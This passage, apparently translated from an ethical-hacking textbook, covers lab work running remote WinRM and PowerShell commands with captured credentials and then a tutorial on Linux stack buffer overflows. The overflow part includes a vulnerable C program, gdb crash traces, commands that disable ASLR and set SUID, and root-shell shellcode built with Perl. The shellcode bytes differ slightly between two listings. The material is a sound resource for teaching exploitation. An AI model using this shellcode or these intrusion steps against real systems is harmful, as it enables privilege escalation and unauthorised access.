你可以看到，我们和往常一样指定了 -U 用于用户凭据，但这里有一些额外的语法部分。-c 标志表示“运行命令”。-t 标志指定目标，命令添加到末尾。尽管我们可以看到已成功运行命令，但使用 WinRM 运行命令与 WMI 的一个区别是，命令不维护任何状态，且无法进行交互式会话。让我们看一个示例：

```
# .\ghwinrm.py -c -U user%Password1 -t 192.168.1.13 cd
C:\Users\User
# .\ghwinrm.py -c -U user%Password1 -t 192.168.1.13 cd c:\\
# .\ghwinrm.py -c -U user%Password1 -t 192.168.1.13 cd
C:\Users\User
```

这里可以看到，当我们使用 cd 打印当前目录时，我们在 User 目录中。当我们 cd 到 C: 根目录时，它不维护状态。这意味着如果我们需要在目录间移动，就必须堆叠命令，如下所示：

```
# .\ghwinrm.py -c -U user%Password1 -t 192.168.1.13 'cd c:\\ && dir'
```

```
Volume in drive C has no label.
Volume Serial Number is 9291-E8BB

Directory of c:\\

03/18/2017  02:03 PM    <DIR>          PerfLogs
07/17/2017  09:21 AM    <DIR>          Program Files
03/18/2017  07:48 PM    <DIR>          Program Files (x86)
08/30/2017  11:10 PM    <DIR>          Users
08/31/2017  05:54 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  28,244,885,504 bytes free
```

通过使用 && 运算符堆叠命令，我们可以在同一行上移动并运行命令。&& 运算符表示如果第一个命令成功，则运行第二个命令。我们可以连续使用多个 && 运算符，但在此示例中，我们只是 cd 到 C: 根目录，然后执行 dir 命令。我们可以看到 C: 根目录的内容，表明我们已成功移动并运行了命令。

这只是你能做的事情的一个快速示例；使用 WinRM 将允许你执行任何不需要交互式会话即可运行的命令。这包括创建和操作服务、进程及其他系统状态。

## 实验 10-7：使用 WinRM 远程运行 PowerShell

攻击者目前采用的流行技术之一是使用 PowerShell 与系统交互。由于许多系统对 PowerShell 的记录不佳，攻击者可以隐藏其活动。这是第 15 章专门致力于使用 PowerShell 进行利用的原因之一。尽管我们不会在本章中研究利用，但让我们看看如何使用我们的 ghwinrm.py 脚本来启动一些基本的 PowerShell 命令：

```
# ./ghwinrm.py -p -U user%Password1 -t 192.168.1.13 "Get-Process"
```

| 句柄 | 非分页内存(K) | 分页内存(K) | 工作集(K) | CPU 时间(s) | ID | 会话 ID | 进程名 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 453 | 23 | 11464 | 29220 | 0.52 | 2000 | 1 | ApplicationFrameHost |
| 41 | 4 | 1836 | 2492 | 0.00 | 2096 | 0 | cmd |

... 出于简洁性已截断

你可以看到，我们将 -c 选项更改为 -p，以便运行 PowerShell 而不是命令 shell。用户和目标选项相同，我们将 PowerShell 方法传递给脚本以使其运行。在此示例中，我们获取进程列表，它打印的内容与在常规 PowerShell shell 中相同。这固然很好，但能够组合更复杂的脚本将使我们在使用目标系统时走得更远。

让我们创建一个基本脚本，打印谁登录到了系统。我们将此文件保存为 psscript。

```
# cat psscript
function Translate-SID
{
    param([string]$SID)
    $objSID = New-Object System.Security.Principal.SecurityIdentifier($SID)
    try {
        $objUser = $objSID.Translate([System.Security.Principal.NTAccount])
        return $objUser.Value
    }catch{
        return "Unknown"
    }
}

Get-EventLog System -Source Microsoft-Windows-Winlogon | ForEach-Object{
    $ret = New-Object PSObject
    $UserProperty = Translate-SID $_.ReplacementStrings[1]
    $time = $_.TimeGenerated

    $ret | add-Member UserID $UserProperty
    if($_.EventID -eq 7001) {
        $ret | add-Member Action "Logon"
    } else {
        $ret | add-Member Action "Logoff"
    }
    $ret | add-Member Time $time
    $ret
}
```

此脚本打印有关系统中登录或注销用户的信息、操作类型以及发生时间。我们已将此信息保存到文件中，因为 ghwinrm.py 脚本也可以将文件作为参数，在远程系统上使用 PowerShell 运行。它不会在目标系统上实际放置任何文件；相反，它使用 PowerShell 以编码形式运行这些脚本，因此我们不必担心脚本签名和其他安全限制。

```
# .\ghwinrm.py -p -U user%Password1 -t 192.168.1.13 -f psscript
```

| 用户 ID | 操作 | 时间 |
|--------|--------|------|
| DESKTOP-KRB3MSI\User | 登录 | 8/13/2017 8:46:15 PM |
| DESKTOP-KRB3MSI\User | 注销 | 8/13/2017 12:41:19 PM |
| DESKTOP-KRB3MSI\User | 登录 | 8/13/2017 7:27:26 PM |
| DESKTOP-KRB3MSI\User | 登录 | 7/17/2017 4:53:09 AM |

这里，你可以看到我们使用 -f 选项指定了要运行的文件，当它在远程系统上运行时，会为我们返回登录信息。这只是我们可能想要运行的一个脚本示例，但可能性几乎是无限的。但是，请记住存在大小限制。大文件无法正常工作，但我们可以结合多种技术来传输这些较大的文件。我们将在第 15 章中更详细地探讨该主题。

## 总结

在本章中，我们探讨了不使用利用代码即可进入目标系统的多种方法。我们研究了使用 Responder 伪造 LLMNR 和 NetBIOS 名称服务响应来窃取和破解凭据。这使我们能够收集使用 NetNTLM 传递的凭据，然后使用 John the Ripper 破解了这些凭据。

我们还研究了使用捕获的凭据运行命令的不同方法。这包括使用 winexe，它为我们提供了一个远程交互式 shell。我们还使用 WMI 来查询系统信息和运行命令。使用 WinRM，我们超越了仅仅启动 shell，能够将 PowerShell 脚本传递到目标系统。

在这样做的过程中，我们能够“以敌为资”，利用这些目标系统上的内置工具和进程。这降低了被发现的风险，也减少了在受害者系统上留下不良痕迹的可能性。

## 进一步阅读

- hashcat 哈希类型参考 https://hashcat.net/wiki/doku.php?id=example_hashes
- 传递哈希工具包 https://github.com/byt3bl33d3r/pth-toolkit 和 https://media.blackhat.com/us-13/US-13-Duckwall-Pass-the-Hash-Slides.pdf
- Responder 博客 http://g-laurent.blogspot.com/
- Responder GitHub 仓库 https://github.com/lgandx/Responder


Winexe 工具页面 https://tools.kali.org/maintaining-access/winexe

WMI 类列表 https://msdn.microsoft.com/en-us/library/aa394554(v=vs.85).aspx

WMI 参考 https://msdn.microsoft.com/en-us/library/aa394572(v=vs.85).aspx

## 参考

- 1. Microsoft，“Win32_LogonSession 类”，2017 年 8 月 1 日，
  https://msdn.microsoft.com/en-us/library/aa394189(v=vs.85).aspx。

## 第 11 章

## 基本 Linux 漏洞利用

为什么要学习漏洞利用？道德黑客应该学习漏洞利用，以了解漏洞是否可被利用。有时安全专业人员错误地认为并会公开声称某个漏洞不可利用，但黑帽黑客知道情况并非如此。一个人无法为某个漏洞找到漏洞利用程序，并不意味着别人也不能。这取决于时间和技能水平。因此，道德黑客必须了解如何利用漏洞并亲自验证。在此过程中，他们可能需要生成概念验证代码，以向厂商证明漏洞可被利用且需要修复。

在本章中，我们讨论以下主题：

- 栈操作与函数调用过程
- 缓冲区溢出
- 本地缓冲区溢出漏洞利用
- 漏洞利用开发过程

## 栈操作与函数调用过程

计算机科学中*栈*的概念，最好通过将其比作学校食堂里的一叠午餐托盘来解释。当你把一个托盘放在堆叠上时，之前位于顶部的托盘现在被遮住了。当你从堆叠中取出一个托盘时，你取的是堆叠顶部的托盘，碰巧就是最后放入的那个。更正式地说，在计算机科学术语中，栈是一种具有先进后出（FILO）队列特性的数据结构。

将项目放入栈的过程称为 *push*，在汇编语言代码中使用 push 命令完成。同样，从栈中取出项目的过程称为 *pop*，使用汇编语言代码中的 pop 命令完成。

运行的每个程序在内存中都有自己的栈。栈从最高内存地址向最低地址反向增长。这意味着，使用我们的食堂托盘示例，底部托盘将是最高内存地址，顶部托盘将是最低地址。两个重要的寄存器处理栈：扩展基址指针（EBP）和扩展堆栈指针（ESP）。如图 11-1 所示，EBP 寄存器是进程当前栈帧的基址（较高地址）。ESP 寄存器始终指向栈顶（较低地址）。



图 11-1 栈上 EBP 与 ESP 的关系

如第 2 章所述，函数是可被其他函数（包括 main() 函数）调用的自包含代码模块。当调用函数时，会导致程序流程发生跳转。在汇编代码中调用函数时，会发生三件事：

- 按照惯例，调用程序首先将函数参数按逆序放入栈中，以设置函数调用。
- 接下来，扩展指令指针（EIP）被保存在栈中，以便函数返回后程序可以从中断处继续执行。这被称为返回地址。
- 最后，执行 call 命令，并将函数地址放入 EIP 中以执行。


注意 本章显示的汇编代码是使用以下 gcc 编译选项生成的：-fno-stack-protector（如第 2 章所述）。这禁用了栈保护，有助于你了解缓冲区溢出。有关近期内存和编译器保护的讨论见第 12 章。

在汇编代码中，call 如下所示：

```
0x8048393 <main+3>:    mov    0xc(%ebp),%eax
0x8048396 <main+6>:    add    $0x8,%eax
0x8048399 <main+9>:    pushl  (%eax)
0x804839b <main+11>:   mov    0xc(%ebp),%eax
0x804839e <main+14>:   add    $0x4,%eax
0x80483a1 <main+17>:   pushl  (%eax)
0x80483a3 <main+19>:   call   0x804835c <greeting>
```

被调用函数的职责首先是将调用程序的 EBP 寄存器保存到栈中，然后将当前 ESP 寄存器保存到 EBP 寄存器（设置当前栈帧），接着递减 ESP 寄存器为函数的局部变量腾出空间。最后，函数有机会执行其语句。此过程称为函数序言。

在汇编代码中，序言如下所示：

```
0x804835c <greeting>:   push  %ebp
0x804835d <greeting+1>: mov   %esp,%ebp
0x804835f <greeting+3>: sub   $0x190,%esp
```

被调用函数在返回给调用程序之前做的最后一件事是，通过将 ESP 递增到 EBP 来清理栈，有效地在 leave 语句中清除栈。然后，作为返回过程的一部分，保存的 EIP 被从栈中弹出。这被称为函数尾声。如果一切顺利，EIP 仍然保存着要获取的下一条指令，进程继续执行函数调用后的语句。

在汇编代码中，尾声如下所示：

```
0x804838e <greeting+50>:         leave
0x804838f <greeting+51>:         ret
```

在查找缓冲区溢出时，你会反复看到这些小段汇编代码。

## 缓冲区溢出

现在你已经掌握了基础知识，我们可以进入正题了。如第 2 章所述，缓冲区用于在内存中存储数据。我们主要关注存储字符串的缓冲区。缓冲区本身没有机制防止你向保留空间中放入过多数据。事实上，如果程序员不够小心，你很快就会超出分配的空间。例如，以下代码在内存中声明了一个 10 字节的字符串：

```
char str1[10];
```

那么，如果执行以下代码会发生什么？

```
strcpy (str1, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA") ;
```

让我们来看看：

```
//overflow.c
#include <string.h>
main(){
    char str1[10];            //declare a 10 byte string
    //next, copy 35 bytes of "A" to str1
    strcpy (str1, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA") ;
}
```

现在按以下方式编译并执行程序：

```
$ //notice we start out at user privileges "$"
$ gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector \
-o overflow overflow.c
$ ./overflow
09963: Segmentation fault
```


注意 在类 Linux 操作系统中，值得注意的提示符约定可以帮助你区分用户 shell 和 root shell。通常，root 级 shell 的提示符中会包含 # 符号，而用户 shell 的提示符中通常包含 $ 符号。这是一个视觉提示，显示你是否已成功提升权限，但你仍会希望使用 whoami 或 id 等命令进行验证。

为什么会出现段错误？让我们启动 gdb（GNU 调试器）来看看：

```
$gdb -q overflow
(gdb) run
Starting program: /book/overflow

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg eip
eip            0x41414141    0x41414141
(gdb) q
A debugging session is active.

Do you still want to close the debugger? (y or n) y
$
```

如你所见，在 gdb 中运行程序时，尝试执行地址 0x41414141 处的指令时程序崩溃，该地址恰好是 AAAA 的十六进制形式（A 的十六进制为 0x41）。接下来，你可以检查 EIP 是否被 A 损坏。确实，EIP 全是 A，程序注定要崩溃。请记住，当函数（在此例中为 main）尝试返回时，保存的 EIP 值会从栈中弹出并随后被执行。因为地址 0x41414141 超出了你的进程段，所以你得到了段错误。


警告 大多数现代操作系统使用地址空间布局随机化（ASLR）来随机化栈内存调用，因此本章余下内容的结果会不尽相同。要禁用 ASLR，请运行以下命令：

```
#echo "0" > /proc/sys/kernel/randomize_va_space
```

现在，让我们来看看如何攻击 meet.c。

### 实验 11-1：溢出 meet.c


你在第 2 章中了解了 meet.c 程序。它是这样的：

```c
//meet.c
#include <stdio.h>   // needed for screen printing
#include <string.h>

greeting(char *temp1, char *temp2){ // greeting function to say hello
    char name[400];   // string variable to hold the name
    strcpy(name, temp2);   // copy the function argument to name
    printf("Hello %s %s\n", temp1, name); //print out the greeting
}
main(int argc, char * argv[]){      //note the format for arguments
    greeting(argv[1], argv[2]);     //call function, pass title & name
    printf("Bye %s %s\n", argv[1], argv[2]);    //say "bye"
}   //exit program
```

要溢出 meet.c 中的 400 字节缓冲区，你需要另一个工具 Perl。Perl 是一种解释型语言，这意味着你不需要预先编译它，这使得它在命令行中非常方便。目前，你只需要理解一条 Perl 命令：

```
`perl -e 'print "A" x 600'`
```


NOTE 反引号 (`) 用于包装 Perl 命令并让 shell 解释器执行该命令并返回值。

这条命令只会向标准输出打印 600 个 A——试试看！

使用此技巧，你将首先向 meet 程序输入十个 A（记住，它接受两个参数）：

```
# /notice, we have switched to root user "#"
# gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet meet.c
# ./meet Mr `perl -e 'print "A" x 10'`
Hello Mr AAAAAAAAAA
Bye Mr AAAAAAAAAA
#
```

接下来，你将把 600 个 A 作为第二个参数输入到 meet.c 程序中，如下所示：

```
# ./meet Mr `perl -e 'print "A" x 600'`
Segmentation fault
```

如预期，你的 400 字节缓冲区已溢出；希望 EIP 也已溢出。要验证这一点，请再次启动 gdb：

```
# gdb -q meet
(gdb) run Mr `perl -e 'print "A"x600'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /tmp/meet Mr `perl -e 'print "A"x600'`

Program received signal SIGSEGV, Segmentation fault.
next_env_entry (position=<optimized out>) at arena.c:220
220  arena.c: No such file or directory.
(gdb) info reg $eip
eip	0xb7e6f9e9	0xb7e6f9e9 <ptmalloc_init+121>
```


NOTE 你的值会有所不同。请记住，我们想要传达的是概念，而不是内存值。取决于你使用的 gcc 版本和其他因素，程序甚至可能在不同的部分崩溃。

你不仅没有控制 EIP，还将其移到了内存的另一部分。如果你查看 meet.c，会发现 greeting 函数中的 strcpy() 函数之后有一个 printf() 调用，而 printf() 反过来又调用 libc 库中的 vfprintf()。vfprintf() 函数接着调用 strlen。但哪里出了问题呢？你有几个嵌套函数，因此有好几个栈帧，每个都压入栈中。当你引起溢出时，一定破坏了传递给 printf() 函数的参数。回顾前一节，函数的调用和序言会使栈呈现如下图所示：

| | ESP | 名称 | EBP | EIP | Temp1 | Temp2 |
|---|---|---|---|---|---|---|
| 低内存: 0x11111111 | <-- 栈向下增长 --> | | | | | 高内存: 0xffffffff |

如果你越过 EIP 写入，将会从 temp1 开始覆盖函数参数。由于 printf() 函数使用 temp1，你会遇到问题。为了验证这一理论，让我们再次使用 gdb。当我们再次运行 gdb 时，可以尝试获取源代码列表，如下所示：

```
(gdb) list
1 #include <stdio.h> // needed for screen printing
2 #include <string.h>
3
4 greeting(char *temp1,char *temp2){ // greeting function to say hello
5 char name[400]; // string variable to hold the name
6 strcpy(name, temp2); // copy the function argument to name
7 printf("Hello %s %s\n", temp1, name); //print out the greeting
8 }
9 main(int argc, char * argv[]){ //note the format for arguments
10 greeting(argv[1], argv[2]); //call function, pass title & name
(gdb) b 7
Breakpoint 1 at 0x5e5: file meet.c, line 7.
(gdb) run Mr `perl -e 'print "A"x600'`
Starting program: /tmp/meet Mr `perl -e 'print "A"x600'`

Breakpoint 1, greeting (temp1=0xbffffc73 "Mr",
temp2=0xbfffffc76 'A' <repeats 200 times>...) at meet.c:7
7 strcpy(name, temp2); // copy the function argument to name
```

你可以在前面加粗的行中看到，函数的参数 temp1 和 temp2 已被损坏。指针现在指向 0x41414141，值为 ""（或 null）。问题是 printf() 不会只接受 null 作为输入，因此会出错。所以让我们先从较少的 A 开始，比如 405 个，然后慢慢增加，直到获得我们需要的效果：

```
(gdb) d 1 <remove breakpoint 1>
(gdb) run Mr `perl -e 'print "A" x 405'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```

```
Starting program: /book/meet Mr `perl -e 'print "A" x 405'`
Hello Mr
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[more 'A's removed for brevity]
AAA
```

```
Program received signal SIGSEGV, Segmentation fault.
0x80000645 in main (argc=0, argv=0x0) at meet.c:12
12   printf("Bye %s %s\n", argv[1], argv[2]); //say "bye"
(gdb) info reg ebp eip
ebp   0xbffff041   0xbffff041
eip   0x80000645   0x80000645 <main+47>
```

```
(gdb)
(gdb) run Mr `perl -e 'print "A" x 408'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /book/meet Mr `perl -e 'print "A" x 408'`
Hello Mr
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[more 'A's removed for brevity]
AAA
Program received signal SIGSEGV, Segmentation fault.
0x80000600 in greeting (
temp1=<error reading variable: Cannot access memory at address 0x41414149>,
temp2=<error reading variable: Cannot access memory at address 0x4141414d>)
at meet.c:8
8   printf("Hello %s %s\n", temp1, name); //print out the greeting
(gdb) info reg ebp eip
ebp   0x41414141   0x41414141
eip   0x80000600   0x80000600 <greeting+48>
```

```
(gdb)
(gdb) run Mr `perl -e 'print "A" x 412'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /book/meet Mr `perl -e 'print "A" x 412'`
Hello
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[more 'A's removed for brevity]
AAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg ebp eip
ebp   0x41414141   0x41414141
eip   0x41414141   0x41414141
```

```
(gdb) q
A debugging session is active.
Do you still want to close the debugger?(y or n) y
#
```

正如你所看到的，当在 gdb 中发生段错误时，会显示 EIP 的当前值。

重要的是要认识到，数字（400–412）不如从小开始并慢慢增加，直到仅溢出保存的 EIP 而不影响其他内容这一概念重要。这是因为溢出后紧接着就是 printf 调用。有时你会有更多的缓冲空间，不需要太担心这个问题。例如，如果易受攻击的 strcpy 命令后面没有其他内容，那么在此情况下溢出 412 字节以上也不会有问题。


NOTE 请记住，这里使用的是一段非常简单的有缺陷的代码；在现实生活中，你会遇到许多此类问题。再说一次，我们希望你理解的是概念，而不是溢出特定易受攻击代码所需的数字。

## 缓冲区溢出的后果

当处理缓冲区溢出时，基本上会发生三种情况：

- 拒绝服务。如前所述，在处理进程内存时，很容易出现段错误。然而，在这种情况下，这可能对软件开发人员来说是最好的结果，因为崩溃的程序会引起注意。替代方案是静默的，而且糟糕得多。

- EIP 可被控制以在用户访问级别执行恶意代码。当易受攻击的程序以用户权限运行时会发生这种情况。

- EIP 可被控制以在系统或 root 级别执行恶意代码。在 Unix 系统中，只有一个超级用户，称为 root。root 用户可以在系统上执行任何操作。Unix 系统中的一些功能应受到保护，并留给 root 用户。例如，给予用户 root 权限来更改密码通常是个坏主意。因此，开发出了一种称为 Set User ID（SUID）的概念，用于临时提升进程权限，以允许某些文件在其所有者的权限级别下执行。例如，passwd 命令可以由 root 拥有，当用户执行它时，进程以 root 身份运行。这里的问题是，当 SUID 程序存在漏洞时，攻击可能会获得文件所有者的权限（最坏的情况是 root）。要使程序成为 SUID 程序，你可以发出以下命令：
chmod u+s <filename> 或 chmod 4755 <filename>

该程序将以文件所有者的权限运行。为了充分了解这带来的后果，让我们将 SUID 设置应用到我们的 meet 程序。然后，在以后利用该程序时，我们将获得 root 权限。


# chmod u+s meet
# ls -l meet
-rwsr-xr-x 1 root root 10004 Apr 29 16:50 meet

上一行的第一个字段表示文件权限。该字段的第一个位置用于指示链接、目录或文件（l、d 或 -）。接下来的三个位置按顺序表示文件所有者的权限：读取、写入、执行。通常，x 用于执行；但是，当 SUID 条件适用时，该位置会变为 s，如所示。这意味着当文件被执行时，它将以文件所有者的权限执行（在此例中为 root，即该行中的第三个字段）。该行的其余部分超出了本章的范围，可以通过参阅“进一步阅读”部分中列出的 KrnlPanic.com 关于 SUID/GUID 的参考资料来了解。

## 本地缓冲区溢出漏洞利用

本地漏洞利用比远程漏洞利用更容易实施，因为你可以访问系统内存空间，并能更轻松地调试你的漏洞利用。

缓冲区溢出漏洞利用的基本目标是溢出易受攻击的缓冲区并出于恶意目的修改 EIP。请记住，EIP 指向要执行的下一条指令。攻击者可以利用这一点将其指向恶意代码。EIP 的副本会保存在栈上，作为函数调用的一部分，以便在函数完成后能够继续执行调用后的命令。如果你能影响保存的 EIP 值，当函数返回时，被破坏的 EIP 值将从栈中弹出到寄存器（EIP）中，然后被执行。

## 实验 11-2：漏洞利用的组件

在缓冲区溢出情况下，要构建有效的漏洞利用，需要使用以下组件创建比程序预期更大的缓冲区：NOP 滑板、shellcode 和返回地址。

### NOP 滑板

在汇编代码中，NOP（无操作）命令仅表示不执行任何操作，只是移动到下一条命令。黑客已经学会使用 NOP 进行填充。当放置在漏洞利用缓冲区的前面时，这种填充称为 NOP 滑板。如果 EIP 指向 NOP 滑板，处理器将沿着滑板直接进入下一个组件。在 x86 系统上，0x90 操作码表示 NOP。实际上还有更多，但 0x90 是最常用的。

### Shellcode

Shellcode 是保留给将执行黑客指令的机器代码的术语。最初，这个术语的提出是因为恶意代码的目的是为攻击者提供一个简单的 shell。从那以后，这个术语已演变为涵盖用于做远比提供 shell 更多事情的代码，例如提升权限或在远程系统上执行单个命令。这里需要意识到的重要一点是，shellcode 实际上是二进制代码，通常以十六进制形式表示。你可以在网上找到大量可用于所有平台的 shellcode 库。第 7 章介绍了编写自己的 shellcode。我们将使用 Aleph1 的 shellcode（如下所示，包含在测试程序中）：

```c
//shellcode.c
char shellcode[] = //setuid(0) & Aleph1's famous shellcode, see ref.
    "\x31\xc0\x31\xdb\xb0\x17\xcd\x80" //setuid(0) first
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\xb0\x40\xcd\x80"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main() { //main function
    int *ret; //ret pointer for manipulating saved return.
    ret = (int *)&ret + 2; //set ret to point to the saved return
    //value on the stack.
    (*ret) = (int)shellcode; //change the saved return value to the
    //address of the shellcode, so it executes.
}
```

让我们通过编译和运行测试程序 shellcode.c 来检查一下：

```
# //start with root level privileges
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
# chmod u+s shellcode
# useradd -m joe
# su joeuser //switch to a normal user (any)
$ ./shellcode
$ ./shellcode
# id
uid=0(root) gid=1001(joeuser) groups=0(root),1001(joeuser)
```

成功了——我们得到了一个 root shell 提示符。


注意 我们使用了编译选项来禁用较新版本 Linux 中的内存和编译器保护。我们这样做是为了帮助你学习当前主题。有关这些保护的讨论，请参见第 12 章。

## 重复的返回地址

漏洞利用中最重要的元素是返回地址，它必须完美对齐，并重复直到溢出栈上的保存 EIP 值。虽然可以直接指向 shellcode 的开头，但通常更简单的做法是稍微随意一点，指向 NOP 滑板中间的某个位置。要做到这一点，首先需要知道当前的 ESP 值，它指向栈顶。gcc 编译器允许你使用内联汇编代码并按如下方式编译程序：

```
#include <stdio.h>
unsigned int get_sp(void){
        __asm__("movl %esp, %eax");
}
int main(){
        printf("Stack pointer (ESP): 0x%x\n", get_sp());
}
# gcc -o get_sp get_sp.c
# ./get_sp
Stack pointer (ESP): 0xbffff2f8     //remember that number for later
```

记住 ESP 值；我们很快将把它用作返回地址，尽管你的值会不同。

此时，检查系统是否启用了 ASLR 可能会有所帮助。你可以通过连续多次运行上一个程序来轻松检查这一点，如下所示。如果每次运行的输出都发生变化，则你的系统正在运行某种栈随机化方案。

```
# ./get_sp
Stack pointer (ESP): 0xbfe90d88
# ./get_sp
Stack pointer (ESP): 0xbfca1cc8
# ./get_sp
Stack pointer (ESP): 0xbfe88088
```

在你稍后学习如何绕过这种情况之前，请先按本章前面“注意”部分所述禁用 ASLR：

```
# echo "0" > /proc/sys/kernel/randomize_va_space
```

现在你可以再次检查栈（应该保持不变）：

```
# ./get_sp
Stack pointer (ESP): 0xbffff2f8
# ./get_sp
Stack pointer (ESP): 0xbffff2f8     //remember that number for later
```

现在我们已可靠地找到了当前 ESP，可以估计易受攻击缓冲区的顶部。如果你仍然得到随机栈地址，请尝试先前显示的另一个 echo 行。

这些组件按此处所示的顺序组装：



如你所见，这些地址会覆盖 EIP 并指向 NOP 滑板，然后滑板会“滑”向 shellcode。

## 实验 11-3：从命令行利用栈溢出

请记住，在此例中，我们攻击的理想大小是 408。因此，我们将使用 Perl 从命令行构建该大小的漏洞利用。作为经验法则，最好用 NOP 填充攻击缓冲区的一半；在此例中，我们将使用 200，并使用以下 Perl 命令：

```
perl -e 'print "\x90"x200 ';
```

下一个类似的 Perl 命令将允许你将 shellcode 打印到二进制文件中（注意使用输出重定向符 >）：

```
$ perl -e 'print "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\xb0\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\x80\xe8\xdc\xff\xff\xff/bin/sh";' > sc
$
```

你可以使用以下命令计算 shellcode 的大小：

```
$ wc -c sc
59 sc
```

接下来，我们需要计算返回地址。有两种方法可做到这一点：基于栈指针地址进行数学计算，或使用 gdb 找到我们的数据在栈上的确切位置。gdb 方法更准确，因此让我们来看看如何操作。首先，我们希望应用程序崩溃，并且能够轻松识别数据。我们已经知道缓冲区长度为 412，因此让我们构建一个示例溢出并看看是否可以找到我们的返回地址。

我们的第一步是将崩溃场景加载到 gdb 中。为此，我们将发出以下命令：


```
$ gdb -q --args ./meet Mr `perl -e 'print "A"x412'`
Reading symbols from ./meet...done.
(gdb) run
Starting program: /tmp/meet Mr AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

